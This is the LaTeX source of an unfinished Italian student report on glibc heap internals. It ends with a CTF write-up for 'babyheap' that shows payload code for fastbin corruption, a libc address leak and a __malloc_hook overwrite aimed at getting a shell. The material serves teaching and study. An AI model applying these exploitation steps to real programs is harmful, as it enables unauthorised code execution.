\documentclass{article}
\usepackage[italian]{babel}
\usepackage[T1]{fontenc}
\usepackage{arxiv}
\usepackage{amssymb}
\usepackage[utf8]{inputenc} % allow utf-8 input
\usepackage[T1]{fontenc}    % use 8-bit T1 fonts
\usepackage{hyperref}       % hyperlinks
\usepackage{url}            % simple URL typesetting
\usepackage{booktabs}       % professional-quality tables
\usepackage{amsfonts}       % blackboard math symbols
\usepackage{nicefrac}       % compact symbols for 1/2, etc.
\usepackage{microtype}      % microtypography
\usepackage{lipsum}
\usepackage{xcolor}
\usepackage{listings}
\usepackage{biblatex}
\usepackage{fancyvrb}
\usepackage{bigfoot}
\usepackage{graphicx}
\usepackage{realboxes}
\usepackage{todonotes}

\graphicspath{ {./images/} }
\addbibresource{bibliografia.bib}
\lstset{xleftmargin=10pt,xrightmargin=10pt}

\definecolor{mGreen}{rgb}{0,0.6,0}
\definecolor{mGray}{rgb}{0.5,0.5,0.5}
\definecolor{mPurple}{rgb}{0.58,0,0.82}
\definecolor{backgroundColour}{rgb}{0.95,0.95,0.92}

\lstdefinestyle{CStyle}{
    backgroundcolor=\color{backgroundColour},   
    commentstyle=\color{mGreen},
    keywordstyle=\color{magenta},
    numberstyle=\tiny\color{mGray},
    stringstyle=\color{mPurple},
    basicstyle=\ttfamily\small,
    breakatwhitespace=false,         
    breaklines=true,                 
    captionpos=b,                    
    keepspaces=true,                 
    numbers=none,                    
    numbersep=5pt,                  
    showspaces=false,                
    showstringspaces=false,
    showtabs=false,                  
    tabsize=4,
    language=C
}

\lstdefinestyle{PyStyle}{
    backgroundcolor=\color{backgroundColour},   
    commentstyle=\color{mGreen},
    keywordstyle=\color{magenta},
    numberstyle=\tiny\color{mGray},
    stringstyle=\color{mPurple},
    basicstyle=\ttfamily\small,
    breakatwhitespace=false,         
    breaklines=true,                 
    captionpos=b,                    
    keepspaces=true,                 
    numbers=none,                    
    numbersep=5pt,                  
    showspaces=false,                
    showstringspaces=false,
    showtabs=false,                  
    tabsize=2,
    language=Python
}

\lstset{emph={%  
    uint64_t, \_\_attribute\_\_, aligned, size_t %
    },emphstyle={\color{magenta}\bfseries}%
}%


\title{Heap Exploitation}


\author{
  Gianmaria Del Monte\\
  Dipartimento di Ingegneria Informatica\\
  Università degli Studi Roma 3\\
  Matricola: 499829\\
  \texttt{gia.delmonte@stud.uniroma3.it}
}

\begin{document}


\maketitle
\vspace*{\fill}

\begin{figure}[h]
	\centering
	
\includegraphics[width=15cm]{copertina}
\end{figure}

\vspace*{\fill}
\begin{abstract}
L'\emph{heap} è una regione di memoria assegnata ad ogni processo con cui è possibile interagire mediante funzioni di libreria in ogni linguaggio di programmazione. Essendo molte le interazioni di un processo con l'heap durante il suo ciclo di vita, la sua gestione è molto critica. Sono diverse quindi le implementazioni degli \emph{allocatori}, ognuno progettato per scopi specifici, ma accomunati da una gestione il più efficiente possibile, cercando di tenere bassa la frammentazione e limitando le chiamate al \emph{kernel}. Una vulnerabilità presente in un programma unito ad un uso scorretto dell'heap può portare a conseguenze molto gravi, come all'esecuzione di istruzioni non originariamente pensate da un programmatore, ma iniettate da un hacker per ottenere il controllo di un calcolatore.
\end{abstract}

\newpage
\tableofcontents
\newpage

\section{Introduzione}
L'heap è una regione di memoria assegnata ad un processo, vedi Figura~\ref{fig:proc}, per dati la cui esistenza o dimensione non è conosciuta a tempo di compilazione. A differenza dello stack, la vita di un'allocazione non dipende dalla procedura o dallo stack frame corrente. Questa memoria, infatti, è globale, quindi può essere acceduta e modificata da qualunque parte del programma, in maniera indiretta, per mezzo di un puntatore. 

\begin{figure}[b]
	\centering
	\label{fig:proc}	
	
\includegraphics[width=10cm]{process_layout}
	\caption{Processo in memoria}
\end{figure}

In linguaggio C si può allocare e deallocare memoria in heap tramite due funzioni, offerte dalla libreria standard \verb+stdlib.h+:
\begin{lstlisting}[style=CStyle]
	void* malloc(size_t size)
\end{lstlisting}
che alloca in heap uno spazio di dimensione \verb+size+, e
\begin{lstlisting}[style=CStyle]
	void free(void* p)
\end{lstlisting}
che dealloca dall'heap la zona di memoria puntata da \verb+p+, precedentemente allocata da \verb+malloc+.

Esistono una serie di regole, di cui è responsabile il programmatore, che se rispettate consentono di evitare bug:
\begin{enumerate}
\item liberare una zona di memoria con \verb+free+ ottenuta da una \verb+malloc+
\item non usare \verb+free+ su una zona di memoria più di una volta
\item assicurarsi di non sovrascrivere zone di memoria che eccedono la memoria richiesta dalla \verb+malloc+, per evitare \emph{heap overflow}.
\end{enumerate}
\section{Heap\todo{Cambiare titolo}}
Il funzionamento dell'heap dipende sia dalla piattaforma che dalla specifica implementazione. Ad esempio, in sistemi embedded le implementazioni normalmente utilizzati usano una lista concatenata con politica LIFO di blocchi di memoria di dimensione prefissata. Anche l'implementazione nella \emph{glibc}, la libreria standard del linguaggio C, di Linux è completamente differente da quella di Windows. In particolare, nella nostra trattazione, si vedrà l'implementazione dell'allocatore in heap nella glibc di un sistema Linux, \emph{ptmalloc2}, che deriva dalla \emph{ptmalloc}, che a sua volta deriva da una vecchia implementazione, \emph{dlmalloc}.

Uno dei problemi principali di cui soffre l'heap per sua natura è la \emph{frammentazione}: ci saranno quindi sezioni inutilizzate di memoria interposte tra sezioni in uso. Un buon allocatore dovrà limitare questo fenomeno, cercando di unire spazi contigui non utilizzati per soddisfare una richiesta.

\verb+malloc+ e \verb+free+, non sono gli unici modi con cui un programmatore C/C++ può interagire con l'heap: si possono infatti utilizzare funzioni come \verb+calloc+, \verb+realloc+, \verb+memalign+, che come \+malloc+, possono essere rilasciate con \verb+free+. I programmatori C++, invece, possono allocare memoria in heap con gli operatori \verb+new+ e \verb+new[]+, e deallocarla con \verb+delete+ e \verb+delete[]+.

L'allocatore della glibc di Linux, divide l'heap in chunk, ovvero porzioni di memoria più grandi rispetto a quelli richiesti da un programmatore. Questo per contenere metadati utili alla gestione dei chunk nell'heap.
Inoltre, poichè l'allocatore non conosce come un programmatore utilizza i dati allocati in memoria, esso deve garantire che i dati siano allineati. Questo ha impatto sulle performace di un software. La glibc allinea i chunk a 8 byte in sistemi a 32 bit ed a 16 byte in sistemi a 64 bit.

\subsection{Strategia di base}
Vediamo come vengono allocati i chunk, in un allocatore il cui funzionamento è molto semplificato:
\begin{enumerate}
	\item se un precedente chunk liberato con \verb+free+ è sufficientemente grande da contenere l'attuale, si usa questo chunk;\label{base:free}
	\item altrimenti, se c'è abbastanza spazio nel \emph{top chunk}, lo spazio più in alto nell'heap, si crea un nuovo chunk, riducendo il top chunk, e si restituisce questo;
	\item altrimenti, l'allocatore chiederà al kernel più spazio per l'heap, e se questo verrà aumentato sufficientemente da contenere il nuovo chunk viene creato dal nuovo spazio;\label{base:syscall}
	\item altrimenti, la richiesta non può essere soddisfatta e la \verb+malloc+ restituisce \verb+NULL+.
\end{enumerate}

Per il punto~\ref{base:free}, l'heap mantiene una o più liste di chunk, denominati \emph{bin}, gestite alcune con poliche LIFO, altre FIFO, altre ancora ordinate per chunk. Queste liste possono essere semplicemente o doppiamente concatenate, circolari, con nodi \emph{dummy}. Se è presente un chunck con una dimensione sufficientemente grande da soddisfare una richiesta, questo chunk viene estratto da uno dei bin.\todo{Inserire figura bin}

Nel punto~\ref{base:syscall}, le system call che l'allocatore può utilizzare per richiedere più spazio in heap sono \verb+brk+\cite{brk_syscall} e \verb+mmap+\cite{mmap_syscall}.
\verb+brk+ ottiene memoria, non inizializzata a zero, dal kernel incrementanfo il \emph{program break location}, o \emph{brk}. L'inizio dell'heap si trova invece in \emph{start\_brk}. Quando ASLR è disattivato, \emph{start\_brk} punta alla fine del BSS segment, altrimenti, se attivo, viene aggiunto un offset random (vedi Figura~\ref{fig:proc}). Ora, poichè il loader inserisce l'heap subito dopo BSS, l'effetto della syscall \verb+brk+ è quello di aumentare/diminuire la dimensione dell'heap.
\verb+mmap+ è utilizzato da \verb+malloc+ per chiedere al kernel zone mappate in memoria anonime, inizializzate a zero, usabili esclusivamente dal processo richiedente. Quest'ultima system call è usata quando \verb+sbrk+ fallisce, ad esempio perchè l'heap è cresciuto troppo da poter collidere con altre zone del processo, come shared libraries.

Le richieste per regioni di memoria molto ampie sono servite dall'allocatore direttamente da \verb+mmap+. Il comportamento è gestito dalla variabile \verb+M_MMAP_THRESHOLD+, che in sistemi a 32 bit è normalmente 128k e in sistemi a 64 bit è 32M. \'E possibile comunque cambiare la questa variabile con la funzione \verb+mallopt+. Le regioni \emph{mmappate} vengono marcate da una flag che indica che sono state ottenute da una chiamata ad \verb+mmap+, in modo tale che ad una richiesta a \verb+free+, la regione viene deallocata con la syscall \verb+munmap+.

\subsection{Chunk metadata}
Un chunk, come detto in precedenza, contiene dei metadati per la gestione degli stessi nell'heap. Nella glibc la struttura di un chunk è denominata \verb+malloc_chunk+, ed è così definita:

\begin{lstlisting}[style=CStyle]
struct malloc_chunk {
	INTERNAL_SIZE_T mchunk_prev_size;  /* Size of previous chunk (if free). */
	INTERNAL_SIZE_T mchunk_size;       /* Size in bytes, including overhead */
	struct malloc_chunk* fd;           /* double links -- used only if free */
	struct malloc_chunk* bk;
}
\end{lstlisting}

Alcuni di questi campi sono usati o meno in base al fatto che il chunk è in uso o libero.
Un chunk in uso ha questo aspetto:

\begin{verbatim}
    chunk-> +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
            |             Size of previous chunk, if unallocated (P clear)  |
            +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
            |             Size of chunk, in bytes                     |A|M|P|
      mem-> +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
            |             User data starts here...                          .
            .                                                               .
            .             (malloc_usable_size() bytes)                      .
            .                                                               |
nextchunk-> +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
            |             (size of chunk, but used for application data)    |
            +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
            |             Size of next chunk, in bytes                |A|0|1|
            +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
\end{verbatim}

Da notare che in questo caso \verb+fd+ e \verb+bk+ non sono utilizzati, ma coincidono con la parte del chunk utilizzabile dall'applicazione, lo \emph{user data}. \verb+mem+ è infatti il puntatore ritornato dalla \verb+malloc+.

Un chunk libero, quindi al'interno di un bin, avrà questo aspetto:

\begin{verbatim}
    chunk-> +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
            |             Size of previous chunk, if unallocated (P clear)  |
            +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
            |             Size of chunk, in bytes                     |A|0|P|
      mem-> +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
            |             Forward pointer to next chunk in list             |
            +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
            |             Back pointer to previous chunk in list            |
            +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
            |             Unused space (may be 0 bytes long)                .
            .                                                               .
            .                                                               |
nextchunk-> +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
    `foot:' |             Size of chunk, in bytes                           |
            +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
            |             Size of next chunk, in bytes                |A|0|0|
            +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
\end{verbatim}
Qui lo user data è occupato dai puntatori \verb+fd+ e \verb+bk+\footnote{in base al bin in cui andrà a finire il chunk possono essere usati o entrambi o solo uno dei due.}.

In entrambi i casi il campo \verb+mchunk_prev_size+ è utilizzato solo se il chunk precedente\footnote{in questo caso il chunk precedente è quello che lo precede fisicamente in memoria} è libero e se è in uso può contenere gli user data del chunk precedente.

Il lettore avrà anche notato la presenza di 3 lettere nel campo \verb+mchunk_size+, che corrispondono ai 3 bit meno significativi di questo campo:
\begin{itemize}
	\item \textbf{P (PREV\_INUSE)}: 0 quando il chunk precedente in memoria è libero e la dimensione di quest'ultimo è memorizzata nel primo campo. Se il bit è 1, il chunk precedente è utilizzato e non si può conoscere la sua dimensione.
	\item \textbf{M (IS\_MMAPPED)}: se 1 il chunk è ottenuto mediante la syscall \verb+mmap+. Gli altri due bit sono ignorati.
	\item \textbf{A (NON\_MAIN\_ARENA)}: se 0 il chunk è nel main arena. Ogni thread del processo riceve la sua arena e per questi chunk il bit è settato ad 1.
\end{itemize}

I tre bit possono essere memorizzati nel campo \verb+mchunk_size+ perchè le dimensioni dei chunk sono sempe allineate ad 8 byte (o 16 in sistemi a 64 bit), per cui i tre bit meno significativi sono sempre a zero.

\subsection{Arena}
\lipsum[1]

\subsection{Free bins}
I chunk liberati vanno a finire nei corrispondenti \emph{free bin}, che non sono altro che liste di chunk. Per questo lo user data, che nei chunk liberi è per definizione libero, contiene i puntatori ai chunk precedenti e successivi.
Inoltre i chunk liberi memorizzano il \verb+chunk_size+, i bit \verb+A+ e \verb+P+, ma non usano il bit \verb+M+, poichè i chunk mmappati vengono liberati direttamente con \verb+munmap+ e non vengono riutilizzati.

Poichè la \verb+malloc+ è una componente fondamentale in qualsiasi programma, deve utilizzare alcuni stratagemmi per non impattare troppo sulle performance.
Per migliorare le performance, invece che contenere i chunk in un'unica lista, esistono una serie di liste di chunk, denominati \emph{bin}, progettati per massimizzare l'allocazione e la deallocazione.

Ci sono 5 tipi di bin: 62 \emph{small bin}, 63 \emph{large bin}, 1 \emph{unsorted bin}, 10 \emph{fast bin} e 64 \emph{tcache bin} per thread.
Small, large ed unsorted bin si trovano nello stesso array, in cui l'indice 0 non è usato, 1 è l'unsorted bin, 2-64 sono small bin e 65-127 sono large bin.
I fast bin e le tcache rappresentano una cache per velocizzare la ricerca di chunk liberi.\todo{inserire immagine array dei bin}

\paragraph{Small bin}
Esistono 62 small bin, gestiti come liste doppiamente concatenate, ciascuno contenente chunk della stessa dimensione. In sistemi a 32 bit gli small bin contengono chunk con dimensione minore di 512 byte, in sistemi a 64 byte chunk con dimensione minore di 1024 byte. Gli small bin, contenendo chunk della stessa dimensione, sono già ordinati per cui l'inserimento e la rimozione sono molto veloci.

\paragraph{Large bin}
Non essendo possibile mantenere bin contenenti chunk di qualsiasi dimensione possibile, per chunk maggiori di 512 byte, l'allocatore utilizza i large bin. Esistono 63 large bin, che mantengono chunk di dimensione in un determinato range, progettato in modo tale che non ci sia sovrapposizione con gli small bin e i large bin. In altre parole, dato un chunk, esiste solo uno small bin o large bin in cui può essere inserito.
I large bin, non contenendo chunk di dimensioni prefissati come gli small bin, sono mantenuti ordinati ad ogni allocazione. Questo li rende molto più lenti rispetto gli small bin.

I primi 32 bin contengono chunk spaziati di 64 byte, i successivi 16 bin chunk spaziati di 512 byte, e così via fino a raggiungere l'ultimo bin che contiene tutto il resto (vedi Tabella~\ref{tab:bin}.

\begin{table}
	\centering
	\begin{tabular}{lll}
		\# bin & Spaziamento & Tipo \\
		\midrule
		64 & 8 & Small bin     \\
		32 & 64 & Large bin      \\
		16 & 512 & Large bin  \\
		8 & 4096 & Large bin  \\
		4 & 32768 & Large bin  \\
		2 & 262144 & Large bin \\
		1 & rimanente & Large bin \\
		\bottomrule
	\end{tabular}
	\vspace{0.15in}
	\caption{Divisione dei bin}
	\label{tab:bin}
\end{table}

\paragraph{Unsorted bin}
C'è un solo unsorted bin. Sia small chunk che large chunk, quando sono liberati, finiscono in questo bin. Questo perchè la maggior parte dei programmi effettua una \verb+free+ su un insieme di chunk per poi allocare un certo numero di chunk di dimensione simile. In questi casi non conviene unire chunk vicini per formare chunk più grandi per poi inserirli nei bin appositi, ma è utile aver pronti subito questi chunk. L'unsorted bin si comporta come un layer di cache.
Durante una \verb+malloc+, si verifica se esiste almeno un elemento in questo bin che può soddisfare la richiesta. Se esiste, \verb+malloc+ lo restituisce, altrimenti inserisce i chunk nei rispettivi small e large bin.

\paragraph{Fast bin}
I fast bin contengono chunk che non vengono uniti ai chunk liberi vicini, in modo tale che se una richiesta arriva in un tempo relativamente breve rispetto a quando il chunk viene liberato, questa può essere servita immediatamente. Come gli small bin, i fast bin contengono chunk di dimensioni prefissate. In particolare esistono 10 fast bin, di dimensioni 16, 24, 32, 40, 48, 56, 64, 72, 80, 88.
Non essendo uniti ad altri chunk, il bit \verb+P+ del chunk successivo non è settato, quindi è come se l'allocatore non liberi effettivamente questi chunk.

Come gli small bin, i chunk in un fast bin sono per loro natura già ordinati, per cui l'inserimento e la rimozione è molto veloce. Visto che i chunk non vengono uniti ai chunk liberi vicini, un fast bin è gestito come una lista singolarmente concatenata.

Il lato negativo dei fast bin è che, non liberando effettivamente i chunk, la memoria con il tempo può frammentarsi. Per questo, periodicamente i chunk nei fast bin vengono \emph{consolidati}, ovvero vengono uniti i chunk liberi vicini e messi i chunk risultanti nell'unsorted bin.

Il consolidamento avviene quando una richiesta a \verb+malloc+ non può essere soddisfatta da un fast bin, quando si libera un chunk più grande di 64KB, oppure quando viene richiamata la funzione \verb+mallopt+ o \verb+malloc_trim+.

\paragraph{Tcache}
L'ultimo livello di ottimizzazione al di sopra di tutti i bin, introdotto dalla versione 2.26 della glibc, è la tcache. Le tcache, \emph{per-thread cache}, sono dei bin posseduti esclusivamente dai singoli thread. In un'applicazione multithread, quando un thread richiede spazio all'heap, essendo questo comune a tutti i thread di un processo, deve aspettare un lock su una variabile mutex per poter ottenere un chunk libero. Essendo l'allocazione e la deallocazione in memoria operazioni eseguite frequentemente, questo può portare ad un degrado delle prestazioni.
Quindi ogni thread mantiene 64 tcache, organizzate secondo liste singolarmente concatenate. Ogni bin contiene al massimo 7 chunk di dimensioni comprese tra 24 e 1032 byte in sistemi a 64 bit e tra 12 e 516 byte in sistemi a 32 bit.

Il funzionamento è il seguente: quando un chunk viene liberato, l'allocatore controlla se questo puù entrare in un tcache bin relativo alla sua dimensione. Come i fast bin, i chunk nel tcache sono considerati in uso e quindi non sono uniti con i vicini.

Se la tcache per quel chunk è pieno, il thread chiede un lock all'heap e gestisce il chunk secondo il vecchio approccio.

Quando, invece, viene richiesto spazio all'heap, se esiste un chunk nel tcache che può soddisfare la richiesta questo viene immediatamente restituito, senza che venga chiesto alcun lock, altrimenti si richiede il lock all'heap e si continua come prima, con la differenza che si cerca di riempire con più chunk possibili le tcache mentre si mantiene il lock sull'heap.

\subsection{Algoritmo della \texttt{malloc}}
I passi eseguiti dalla \verb+malloc+ sono:
\begin{enumerate}
	\item se la dimensione corrisponde ad un tcache bin e c'è un tcache chunk disponibile, restituiscilo.
	\item se la richiesta è superiore a \verb+M_MMAP_THRESHOLD+, il chunk viene allocato tramite \verb+mmap+.
	\item altrimenti si richiede il lock all'arena, svolgendo successivamente i seguenti passi:
	\begin{enumerate}
		\item \textbf{Strategia fastbin/smallbin}
		\begin{itemize}
			\item se il chunk può essere contenuto in un fastbin, cerca un chunk in quel fastbin (cercando di riempire la tcache con gli elementi del fastbin).
			\item altrimenti, se il chunk può essere contenuto in uno smallbin, cerca un chunk in quel smallbin (cercando di riempiera la tcache con gli elementi dello smallbin).
		\end{itemize}
		\item \textbf{Libera i chunk in attesa}
		\begin{itemize}
			\item libera \emph{effettivamente} ogni elemento nei fastbin, consolidali con i vicini e spostali nell'unsorted bin.
			\item per ogni elemento dell'unsorted bin, cerca il chunk in grado di soddisfare la richiesta. Se esiste restituiscilo, altrimenti inserisci ogni elemento nel corrispondente small/large bin (cercando di riempire la tcache con gli elementi che andrebbero nello smallbin).
		\end{itemize}
		\item \textbf{Strategia base di riutilizzo dei chunk}
		\begin{itemize}
			\item cerca il chunk nel corrispondente largebin, se la dimensione corrisponde ad uno dei largebin
		\end{itemize}
		\item \textbf{Crea un nuovo chunk}
		\begin{itemize}
			\item altrimenti, se non ci sono chunk disponibili, vedi se c'è spazio nel top chunk.
			\item se il top chunk non è abbastanza grande, chiedi spazio al kernel con \verb+brk+.
			\item se l'heap non può essere esteso, richiedi uno spazio in memoria tramite \verb+mmap+ e alloca il chunk da lì.
		\end{itemize}
		\item \textbf{Fallisci, restituendo \texttt{NULL}}
	\end{enumerate}

\end{enumerate}

\subsection{Algoritmo della \texttt{free}}
L'algoritmo eseguito dalla \verb+free+ è il seguente:
\begin{enumerate}
	\item se il puntatore è \verb+NULL+, non fare niente
	\item altrimenti, calcola il puntatore al chunk ottenuto sottraendo al puntatore ricevuto la dimensione dei metadata di un chunk
	\item se il chunk può entrare in un tcache bin, inseriscilo lì dentro.
	\item se il chunk ha il bit \verb+M+ ad 1, liberalo con \verb+munmap+.
	\item altrimenti si chiede il lock sull'arena, svolgendo successivamente i seguenti passi:
	\begin{enumerate}
		\item se un chunk può andare in un fastbin, inseriscilo nel corrispondente fastbin.
		\item altrimenti, se la dimensione del chunk è maggiore di 64KB, consolida i chunk contenuti nei fastbin e inserisci li nell'unsorted bin (sarà compito della \verb+malloc+ di inserirli eventualmente nei corrispondenti small/large bin)
		\item fondi il chunk con i precedenti ed i successivi
		\item se il chunk ottenuto si trova nel top heap, il chunk diventa il nuovo top chunk
		\item altrimenti inseriscilo nell'unsorted bin.
	\end{enumerate}
\end{enumerate}

\section{Attacchi\todo{Cambiare titolo}}
\section{CTF}

\subsection{Babyheap}\label{cap:babyheap}
L'eseguibile \emph{babyheap} mostra un menu con quattro operazioni:
\begin{enumerate}

	\item \emph{allocate}: dopo aver chiesto una dimensione alloca uno spazio in memoria ($\leqslant$ 0x1000) tramite la funzione \verb+calloc+
    \item \emph{fill}: riempie uno spazio in memoria precedentemente allocato. Qui risiede la vulnerabilità, poichè chiede all'utente la dimensione dei dati da inserire senza effettuare un controllo sulla dimensione inserita durante l'allocazione
    \item \emph{free}: libera uno spazio in memoria
    \item \emph{dump}: stampa il contenuto dello spazio in memoria allocato
\end{enumerate}

Effettuando un \verb+checksec+ sul binario, vediamo che esso è compilato a 64 bit, è Full RELRO, per cui non è possibile sovrascrivere la got table ed ha PIE abilitato:

\begin{Verbatim}[commandchars=\\\{\}]
    Arch:     amd64-64-little
    RELRO:    \textcolor{green}{Full RELRO}
    Stack:    \textcolor{green}{Canary found}
    NX:       \textcolor{green}{NX enabled}
    PIE:      \textcolor{green}{PIE enabled}
\end{Verbatim}

L'exploit si basa sulla duplicazione dei chunck nei bin, in particolare nel fastbin e nello smallbin, in modo tale che con successive chiamate a \verb+malloc+ è possibile ottenere la stessa locazione in memoria.
E' importante precisare che non è possibile sfruttare uno \emph{use-after-free}, in quanto i puntatori vengono posti a zero dopo che sono stati liberati.
Essendo i chunk allocati in memoria in modo contiguo è possibile, tramite la \emph{fill} offerta dal programma, effettuare un overflow e sovrascrivere i metadati dei chunk successivi, in particolare del campo \verb+FD+, ovvero il puntatore al chunk successivo in un bin, utilizzato nei fastbin, come puntatore per la gestione di una single linked list.

\begin{verbatim}
    allocate(10)        # -> A
    allocate(10)        # -> B
    allocate(10)        # -> C
    allocate(10)        # -> D
    allocate(0x80)      # -> E {sizeof(smallbin[0]) in 64 bit}
    allocate(10)        # altrimenti E va in top chunk dopo free
\end{verbatim}

Inizialmente si allocano 6 chunk e successivamente con le seguenti istruzioni, si liberano il secondo e il primo:

\begin{verbatim}
    free(2)
    free(1)
\end{verbatim}

In questo modo, essendo i chunk liberati di dimensioni 0x20, questi andranno a finire in \verb+fastbin[0]+\footnote{\verb_fastbin[0]_ contiene i chunk di dimensione 0x20}.
Per cui il primo fastbin contiene la seguente lista di chunk\footnote{ricordando che gli inserimenti e le rimozioni dai fastbin vengono effettuate in testa, con una politica di tipo LIFO}: \verb+[B, C]+.

Essendo il chunk A precedente in memoria al chunk B, con un overflow si modifica parte del campo \verb+FD+, in particolare l'ultimo byte, in modo tale che questo punti al chunk E, quello con dimensione 0x80.

\begin{verbatim}
    payload =  p64(0) * 3
    payload += p64(0x21)
    payload += p8(0x80)
    fill(0, payload)
\end{verbatim}

Se si richiede tramite \verb+malloc+, o in questo caso con una \verb+calloc+, una porzione di memoria con chunk size $\leqslant$ 0x20, questa restituirà il primo elemento del fastbin[0]. Tuttavia quando la \verb+malloc+ estrae questo elemento dalla coda, effettua un controllo sulla \verb+FD->size+, che deve corrispondere alla dimensione dei chunk del fastbin in questione, in questo caso a 0x20.
Quindi con un altro overflow si modifica la dimensione del quinto chunk:

\begin{verbatim}
    payload =  p64(0) * 3
    payload += p64(0x21)
    fill(3, payload)
\end{verbatim}

A questo punto vengono eseguite due \verb+calloc+:

\begin{verbatim}
    allocate(10)
    allocate(10)
\end{verbatim}

In particolare, la prima preleva B dal fastbin e poichè \verb+B->FD+ non è più C ma E, il secondo allocate preleva E, mettendolo in posizione 2 dell'array.
In questo modo due puntatori puntano a un'unico indirizzo in memoria.

\paragraph{Leak del base address della libc}

Ora quello che ci serve è un leak della libc. Ricordando che uno smallbin è una lista doppiamente concatenata e circolare, con puntatori \verb+FD+ e \verb+BK+ che indicano rispettivamente il chunk successivo e quello precedente e che uno smallbin vuoto ha i campi \verb+FD+ e \verb+BK+ pari all'indirizzo dello smallbin stesso, inserendo un chunk in uno smallbin tramite \verb+free+, il suo campo \verb+FD+ verrà popolato con l'indirizzo dello smallbin, che si trova proprio nella libc.

Prima di dare il chunk alla \verb+free+, è importante che la sua dimensione sia ripristinata:

\begin{verbatim}
    payload =  p64(0) * 3
    payload += p64(0x91)
    fill(3, payload)
\end{verbatim}

Poi si effettua una \verb+free+ del chunk E, che va a finire in \verb+smallbin[0]+:

\begin{verbatim}
    free(4)
\end{verbatim}

A questo punto, poichè il secondo elemento dell'array punta allo stesso chunk, tramite una \verb+dump+ è possibile vedere il contenuto dei puntatori \verb+FD+ e \verb+BK+, ricordando che in un chunk che viene liberato con \verb+free+ corrisponde ai primi 16 byte (in sistemi a 64 bit) della zona usata dall'applicazione.
Conoscendo l'offset dal base address della libc è possibile ottenere l'indirizzo.

\paragraph{Ottenimento di una shell}
Essendo il binario Full RELRO, non è possibile modificare alcuna entry della got table. Quindi per richiamare le funzioni della libc, si può utilizzare \verb+__malloc_hook+, un puntatore a funzione che \verb+malloc+ invoca se questo è diverso da \verb+NULL+.

\begin{Verbatim}[commandchars=\\\{\}]
    \textcolor{red}{pwndbg>} x/10gx (long)&main_arena - 0x40
    \textcolor{blue}{0x7ff0cd8a0ac0} <\textcolor{orange}{_IO_wide_data_0}+288>:   0x0000000000000000      0x0000000000000000
    \textcolor{blue}{0x7ff0cd8a0ad0} <\textcolor{orange}{_IO_wide_data_0}+304>:   0x00007ff0cd8a1e00      0x0000000000000000
    \textcolor{blue}{0x7ff0cd8a0ae0} <\textcolor{orange}{__memalign_hook}>:       0x00007ff0cd7865d0      0x00007ff0cd786580
    \textcolor{blue}{0x7ff0cd8a0af0} <\textcolor{orange}{__malloc_hook}>:         0x0000000000000000      0x0000000000000000
    \textcolor{blue}{0x7ff0cd8a0b00} <\textcolor{orange}{main_arena}>:            0x0000000000000000      0x0000000000000000
\end{Verbatim}

L'indirizzo \verb+0x7ff0cd8a0af0+ è proprio il nostro target. Per sovrascrivere questa zona di memoria possiamo ricorrere nuovamente ad un fastbin attack, iniettando come indirizzo \verb+0x7ff0cd8a0af0+, 16 byte prima di \verb+__malloc_hook+.
